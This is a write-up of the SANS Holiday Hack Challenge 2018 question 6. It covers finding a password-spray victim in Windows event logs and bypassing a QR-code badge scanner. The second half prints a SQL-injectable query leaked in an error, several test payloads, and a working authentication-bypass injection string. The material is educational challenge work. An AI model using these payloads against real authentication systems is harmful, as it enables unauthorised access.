



# SANS HOLIDAY HACK CHALLENGE - 2018 - QUESTION 6

```
https://holidayhackchallenge.com/2018/story.html
```

### DESCRIPTION

Bypass the authentication mechanism associated with the room near Pepper Minstix. A sample employee badge is available. What is the access control number revealed by the door authentication panel? For hints on achieving this objective, please visit Pepper Minstix and help her with the Yule Log Analysis Cranberry Pi terminal challenge.

### CRANBERRY PI CHALLENGE


```
<Pepper>

Hi, I'm Pepper Minstix.

Have you heard of password spraying? It seems we've been victim.

We fear that they were successful in accessing one of our Elf Web Access accounts, but we don't know which one.

Parsing through .evtx files can be tricky, but there's a Python script that can help you convert it into XML for easier grep'ing.

</Pepper>
```

##### YULE LOG ANALYSIS

```
                             .;:cccckkxdc;. 
                         .o0xc;,,,,,XMMMMMkc:,.                                 
                       lXMMMX;,,,,,,XMMMMK,,coddcclOkxoc,.                      
                     lk:oNMMMX;,,,,,XMMWN00o:,,,,,:MMMMMMoc;'                   
                   .0l,,,,dNMMX;,,,,XNNWMMMk,,,,,,:MMMMMx,,,,:;.                
                  .K;,,,,,,,xWMX;,,;Kx:kWMMMk,,,,,:MMMM0,,,,,,,:k'              
                 .XklooooddolckWN:l0:,,,;kWMMO,,,,:MMMN;,,,,,cOWMMd             
               ;oooc;,,,cMMMMMMxkO0,,,,,,,:OMM0,,,:MMWc,,,,lKMMMMWKo            
            ;OMMWl,,,,,,cMMMMMO,,,:cc,,,,,,,:0M0,,:MMd,,,oXMMWKxc,,,c           
          cOdXMMMWl,,,,,cMMMMX,,,,,,,:xxo:,,,,cK0,:MO,;xNWKxc,,,,,,,:.          
        .0l,,,oNMMWl,,,,cMMMW:,,,,,,dXMWNMWXOdc;lxcX:xOxc,,,,,,,,,,,,:          
       ,0;,,,,,,dNMWo,,,cMMMl,,,,;xNMMMMW0kkkkkkddxdddxxxxxxxxxxxxxxxo          
      .Wl,,,,,,,,,dWMo,,cMMx,,,:OWMMW0xc,:c,,:dOkcK:kc:ok0NMMMMMMMMMMd          
      KMMWXOdl;,,,,;xWd,cM0,,l0MW0dc,,,,,,lkWWk:,OW,:XO:,,,;ldOXWMMMM'          
     'MMMMMMMMMN0ko:,;kdcN;o00dc,,,,,,,,,,,0x;,,oMW,,;XWk;,,,,,,,:okk           
     cNKKKKKKKKKKKKKKkoodxxdccccccccccccccco,,,:WMW,,,;XMWk;,,,,,,,l            
     :x,,,,,,,,,,,,,cdkoOldldOKWMMMMMMMMMMMx,,,XMMW,,,,;XMMWx,,,,;c             
     .K,,,,,,,,,cd0WKl,xN,oXo,,,:ok0NMMMMMMc,,OMMMW,,,,,;KMMMNd;l'              
      dl,,,,cx0WMM0c,,lMN,,oMXl,,,,,,;ldOX0',dMMMMW,,,,,,;KMMMK;                
       OoxKWMMMWk:,,,;NMN,,,lWMKc,,,,,,,,ldclWMMMMW,,,,,,:oOl.                  
        OMMMMNx;,,,,,KMMN,,,,lWMM0c,,,,,l. .,cdkO00ccc:;,.                      
         cWXo,,,,,,,kMMMN,,,,,cWMMM0:,c:                                        
          .Kc,,,,,,:MMMMN,,,,,,dMMMMWk'                                         
I am Pepper Minstix, and I'm looking for your help.
Bad guys have us tangled up in pepperminty kelp!
"Password spraying" is to blame for this our grinchly fate.
Should we blame our password policies which users hate?
Here you'll find a web log filled with failure and success.
One successful login there requires your redress.
Can you help us figure out which user was attacked?
Tell us who fell victim, and please handle this with tact...
  Submit the compromised webmail username to 
  runtoanswer to complete this challenge.
elf@b8ca4c01dbf9:~$ 
```

###### ELF HINT

```
Password Spraying

https://securityweekly.com/2017/07/21/tsw11/
```

While not a hint given by the elf, one of the conference presentations seems
relevant..

```
Everything You Wanted to Know About Password Spraying
Beau Bullock
https://www.youtube.com/watch?v=khwYjZYpzFw
```

###### CRANBERRY PI ENUMERATION

```
elf@b8ca4c01dbf9:~$ ls
evtx_dump.py  ho-ho-no.evtx  runtoanswer
elf@b8ca4c01dbf9:~$ cat evtx_dump.py 
#!/usr/bin/env python
#    This file is part of python-evtx.
#
#   Copyright 2012, 2013 Willi Ballenthin <william.ballenthin@mandiant.com>
#                    while at Mandiant <http://www.mandiant.com>
#
#   Licensed under the Apache License, Version 2.0 (the "License");
#   you may not use this file except in compliance with the License.
#   You may obtain a copy of the License at
#
#       http://www.apache.org/licenses/LICENSE-2.0
#
#   Unless required by applicable law or agreed to in writing, software
#   distributed under the License is distributed on an "AS IS" BASIS,
#   WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
#   See the License for the specific language governing permissions and
#   limitations under the License.
#
#   Version v0.1.1
import Evtx.Evtx as evtx
import Evtx.Views as e_views
def main():
    import argparse
    parser = argparse.ArgumentParser(
        description="Dump a binary EVTX file into XML.")
    parser.add_argument("evtx", type=str,
                        help="Path to the Windows EVTX event log file")
    args = parser.parse_args()
    with evtx.Evtx(args.evtx) as log:
        print(e_views.XML_HEADER)
        print("<Events>")
        for record in log.records():
            print(record.xml())
        print("</Events>")
if __name__ == "__main__":
    main()
```

Let's run the script and examine the XML formatted output of the log..

```
elf@e6a31c02d56f:~$ python evtx_dump.py ho-ho-no.evtx | head
<?xml version="1.1" encoding="utf-8" standalone="yes" ?>
<Events>
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event"><System><Provider Name=
"Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}"></Provid
er>
<EventID Qualifiers="">4647</EventID>
<Version>0</Version>
<Level>0</Level>
<Task>12545</Task>
<Opcode>0</Opcode>
<Keywords>0x8020000000000000</Keywords>
<TimeCreated SystemTime="2018-09-10 12:18:26.972103"></TimeCreated>
<EventRecordID>231712</EventRecordID>
<Correlation ActivityID="{fd18dc13-48f8-0001-58dc-18fdf848d401}" RelatedActivityID=""></Corr
elation>
<Execution ProcessID="660" ThreadID="752"></Execution>
<Channel>Security</Channel>
<Computer>WIN-KCON-EXCH16.EM.KRINGLECON.COM</Computer>
<Security UserID=""></Security>
</System>
<EventData><Data Name="TargetUserSid">S-1-5-21-25059752-1411454016-2901770228-500</Data>
<Data Name="TargetUserName">Administrator</Data>
<Data Name="TargetDomainName">EM.KRINGLECON</Data>
<Data Name="TargetLogonId">0x0000000000969b09</Data>
</EventData>
</Event>
```

We see that one of the fields in the entry record is "EventID Qualifer".
Filtering on that, we find we have the following events logged..

```
$ python evtx_dump.py ho-ho-no.evtx | grep "EventID Qualifier" 1.out | sort | uniq -c | sort -nr
    756 <EventID Qualifiers="">4624</EventID>
    212 <EventID Qualifiers="">4625</EventID>
    109 <EventID Qualifiers="">4769</EventID>
    108 <EventID Qualifiers="">4776</EventID>
     45 <EventID Qualifiers="">4768</EventID>
     34 <EventID Qualifiers="">4799</EventID>
     10 <EventID Qualifiers="">4688</EventID>
      2 <EventID Qualifiers="">5059</EventID>
      2 <EventID Qualifiers="">4904</EventID>
      2 <EventID Qualifiers="">4738</EventID>
      2 <EventID Qualifiers="">4724</EventID>
      1 <EventID Qualifiers="">5033</EventID>
      1 <EventID Qualifiers="">5024</EventID>
      1 <EventID Qualifiers="">4902</EventID>
      1 <EventID Qualifiers="">4826</EventID>
      1 <EventID Qualifiers="">4647</EventID>
      1 <EventID Qualifiers="">4608</EventID>
```

Looking up what each of the event ID maps to, we find `4625` might be the
interesting one as it is a failed login event. ("<a href='https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625'>An account failed to log on</a>".

Examining these records, we see that a lot of them come from the IP address
`172.31.254.101` which would indicate a password spray attack.

```
<EventID Qualifiers="">4625</EventID>
<Version>0</Version>
<Level>0</Level>
<Task>12544</Task>
<Opcode>0</Opcode>
<Keywords>0x8010000000000000</Keywords>
<TimeCreated SystemTime="2018-09-10 13:03:34.075348"></TimeCreated>
<EventRecordID>239830</EventRecordID>
<Correlation ActivityID="{71a9b66f-4900-0001-a8b6-a9710049d401}" RelatedActivityID=""></Corr
elation>
<Execution ProcessID="664" ThreadID="852"></Execution>
<Channel>Security</Channel>
<Computer>WIN-KCON-EXCH16.EM.KRINGLECON.COM</Computer>
<Security UserID=""></Security>
</System>
<EventData><Data Name="SubjectUserSid">S-1-5-18</Data>
<Data Name="SubjectUserName">WIN-KCON-EXCH16$</Data>
<Data Name="SubjectDomainName">EM.KRINGLECON</Data>
<Data Name="SubjectLogonId">0x00000000000003e7</Data>
<Data Name="TargetUserSid">S-1-0-0</Data>
<Data Name="TargetUserName">abhishek.kumar</Data>
<Data Name="TargetDomainName">EM.KRINGLECON</Data>
<Data Name="Status">0xc000006d</Data>
<Data Name="FailureReason">%%2313</Data>
<Data Name="SubStatus">0xc0000064</Data>
<Data Name="LogonType">8</Data>
<Data Name="LogonProcessName">Advapi  </Data>
<Data Name="AuthenticationPackageName">Negotiate</Data>
<Data Name="WorkstationName">WIN-KCON-EXCH16</Data>
<Data Name="TransmittedServices">-</Data>
<Data Name="LmPackageName">-</Data>
<Data Name="KeyLength">0</Data>
<Data Name="ProcessId">0x00000000000019f0</Data>
<Data Name="ProcessName">C:\Windows\System32\inetsrv\w3wp.exe</Data>
<Data Name="IpAddress">172.31.254.101</Data>
<Data Name="IpPort">34397</Data>
</EventData>
</Event>
```
Looking up what the last event from that IP address was, we find the following:

```
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event"><System><Provider Name=
"Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}"></Provid
er>
<EventID Qualifiers="">4624</EventID>
<Version>2</Version>
<Level>0</Level>
<Task>12544</Task>
<Opcode>0</Opcode>
<Keywords>0x8020000000000000</Keywords>
<TimeCreated SystemTime="2018-09-10 13:07:02.556292"></TimeCreated>
<EventRecordID>240573</EventRecordID>
<Correlation ActivityID="{71a9b66f-4900-0001-a8b6-a9710049d401}" RelatedActivityID=""></Corr
elation>
<Execution ProcessID="664" ThreadID="12152"></Execution>
<Channel>Security</Channel>
<Computer>WIN-KCON-EXCH16.EM.KRINGLECON.COM</Computer>
<Security UserID=""></Security>
</System>
<EventData><Data Name="SubjectUserSid">S-1-5-18</Data>
<Data Name="SubjectUserName">WIN-KCON-EXCH16$</Data>
<Data Name="SubjectDomainName">EM.KRINGLECON</Data>
<Data Name="SubjectLogonId">0x00000000000003e7</Data>
<Data Name="TargetUserSid">S-1-5-21-25059752-1411454016-2901770228-1156</Data>
<Data Name="TargetUserName">minty.candycane</Data>
<Data Name="TargetDomainName">EM.KRINGLECON</Data>
<Data Name="TargetLogonId">0x0000000001175cd9</Data>
<Data Name="LogonType">8</Data>
<Data Name="LogonProcessName">Advapi  </Data>
<Data Name="AuthenticationPackageName">Negotiate</Data>
<Data Name="WorkstationName">WIN-KCON-EXCH16</Data>
<Data Name="LogonGuid">{5b50bc0d-2707-1b79-e2cb-6e5872170f2d}</Data>
<Data Name="TransmittedServices">-</Data>
<Data Name="LmPackageName">-</Data>
<Data Name="KeyLength">0</Data>
<Data Name="ProcessId">0x00000000000019f0</Data>
<Data Name="ProcessName">C:\Windows\System32\inetsrv\w3wp.exe</Data>
<Data Name="IpAddress">172.31.254.101</Data>
<Data Name="IpPort">40762</Data>
<Data Name="ImpersonationLevel">%%1833</Data>
<Data Name="RestrictedAdminMode">-</Data>
<Data Name="TargetOutboundUserName">-</Data>
<Data Name="TargetOutboundDomainName">-</Data>
<Data Name="VirtualAccount">%%1843</Data>
<Data Name="TargetLinkedLogonId">0x0000000000000000</Data>
<Data Name="ElevatedToken">%%1842</Data>
</EventData>
</Event>
```

Event `4624` maps to a successful login ("<a href='https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4624'>An account was successfully logged on</a>") and is associated with the account `minty.candycane`.

```
elf@04a645d45ceb:~$ ./runtoanswer 
Loading, please wait......
Whose account was successfully accessed by the attacker's password spray? minty.candycane
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMkl0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMXO0NMxl0MXOONMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMxlllooldollo0MMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMW0OKWMMNKkollldOKWMMNKOKMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMXollox0NMMMxlOMMMXOdllldWMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMWXOdlllokKxlk0xollox0NMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMNkkXMMMMMMMMMMMWKkollllllldkKWMMMMMMMMMMM0kOWMMMMMMMMMMMM
MMMMMMWKXMMMkllxMMMMMMMMMMMMMMMXOold0NMMMMMMMMMMMMMMMollKMMWKKWMMMMMM
MMMMMMdllKMMkllxMMMMMMMMMMMMN0KNMxl0MN00WMMMMMMMMMMMMollKMMOllkMMMMMM
Mkox0XollKMMkllxMMMMMMMMMMMMxllldoldolllOMMMMMMMMMMMMollKMMkllxXOdl0M
MMN0dllll0MMkllxMMMMMMMMMMMMMN0xolllokKWMMMMMMMMMMMMMollKMMkllllx0NMM
MW0xolllolxOxllxMMNxdOMMMMMWMMMMWxlOMMMMWWMMMMWkdkWMMollOOdlolllokKMM
M0lldkKWMNklllldNMKlloMMMNolok0NMxl0MX0xolxMMMXlllNMXolllo0NMNKkoloXM
MMWWMMWXOdlllokdldxlloWMMXllllllooloollllllWMMXlllxolxxolllx0NMMMNWMM
MMMN0kolllx0NMMW0ollll0NMKlloN0kolllokKKlllWMXklllldKMMWXOdlllokKWMMM
MMOllldOKWMMMMkollox0OdldxlloMMMMxlOMMMNlllxoox0Oxlllo0MMMMWKkolllKMM
MMW0KNMMMMMMMMKkOXWMMMW0olllo0NMMxl0MWXklllldXMMMMWKkkXMMMMMMMMX0KWMM
MMMMMMMMMMMMMMMMMMMW0xollox0Odlokdlxxoox00xlllokKWMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMWollllOWMMMMNklllloOWMMMMNxllllxMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMN0xlllokK0xookdlxxookK0xollokKWMMMMMMMMMMMMMMMMMMM
MMWKKWMMMMMMMMKk0XMMMMW0ollloOXMMxl0MWKklllldKWMMMWXOOXMMMMMMMMNKKMMM
MMkllldOXWMMMMklllok00xoodlloMMMMxlOMMMNlllxook00xollo0MMMMWKkdlllKMM
MMMN0xollox0NMMW0ollllONMKlloNKkollldOKKlllWMXklllldKWMMX0xlllok0NMMM
MMWWMMWKkollldkxlodlloWMMXllllllooloollllllWMMXlllxooxkollldOXMMMWMMM
M0lldOXWMNklllldNMKlloMMMNolox0XMxl0WXOxlldMMMXlllNMXolllo0WMWKkdloXM
MW0xlllodldOxllxMMNxdOMMMMMNMMMMMxlOMMMMWNMMMMWxdxWMMollkkoldlllokKWM
MMN0xllll0MMkllxMMMMMMMMMMMMMNKkolllokKWMMMMMMMMMMMMMollKMMkllllkKWMM
MkldOXollKMMkllxMMMMMMMMMMMMxlllooloolll0MMMMMMMMMMMMollKMMkllxKkol0M
MWWMMMdllKMMkllxMMMMMMMMMMMMXO0XMxl0WXOONMMMMMMMMMMMMollKMMOllkMMMWMM
MMMMMMNKKMMMkllxMMMMMMMMMMMMMMMN0oldKWMMMMMMMMMMMMMMMollKMMWKKWMMMMMM
MMMMMMMMMMMMXkxXMMMMMMMMMMMWKkollllllldOXMMMMMMMMMMMM0xkWMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMX0xlllok0xlk0xollox0NMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMXollldOXMMMxlOMMWXOdllldWMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMW0OKWMMWKkollldOXWMMN0kKMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMklllooloollo0MMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMXOOXMxl0WKOONMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMkl0MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWXMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
Silly Minty Candycane, well this is what she gets.
"Winter2018" isn't for The Internets.
Passwords formed with season-year are on the hackers' list.
Maybe we should look at guidance published by the NIST?
Congratulations!
```

Oh well, something to revisit afterwards to learn why.

```
<Pepper>

Well, that explains the odd activity in Minty's account. Thanks for your help!

All of the Kringle Castle employees have these cool cards with QR codes on them that give us access to restricted areas.

Unfortunately, the badge-scan-o-matic said my account was disabled when I tried scanning my badge.

I really needed access so I tried scanning several QR codes I made from my phone but the scanner kept saying "User Not Found".

I researched a SQL database error from scanning a QR code with special characters in it and found it may contain an injection vulnerability.

I was going to try some variations I found on OWASP but decided to stop so I don't tick-off Alabaster.

</Pepper>
```

###### MORE ELF HINTS

```
QR Code Generator

https://www.the-qrcode-generator.com/
```

```
SQL Injection

https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF#Auth_Bypass
```

### SOLUTION

```
Door Authentication Panel

https://scanomatic.kringlecastle.com/index.html
```



The QR Code on the sample ID from Alabaster Snowball translates to "oRfjg5uGHmbduj2m".
Generating a QR Code and scanning that results in the message:
`Authorized User Account Has Been Disabled!`.


When I try a random QR Code, it gives the error message
`No Authorized User Account Found`.

The elf gave us a hint about SQL Injection, so let's try generating a QR Code
with SQL Injection special characters.

Trying the input `1' or '1=1'` results in a SQL parse error being thrown on
the scanner, but the input passes by way too fast to read (I think I caught
that it was `mariadb` error 1064 which corresponds to SQL syntax error).

```
{"data":"EXCEPTION AT (LINE 96 \"user_info = query(\"SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '{}' LIMIT 1\".format(uid))\"): (1064, u\"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' LIMIT 1' at line 1\")","request":false}
```

Trying various other inputs..

```
1' or 1=1--  [SYNTAX ERROR]
1' or 1=1#   [USER DISABLED]
1 or 1=1#    [NO USER FOUND]
```

.. and eventually something like this..

```
' OR '1'='1' AND enabled = 1 LIMIT 1#
```





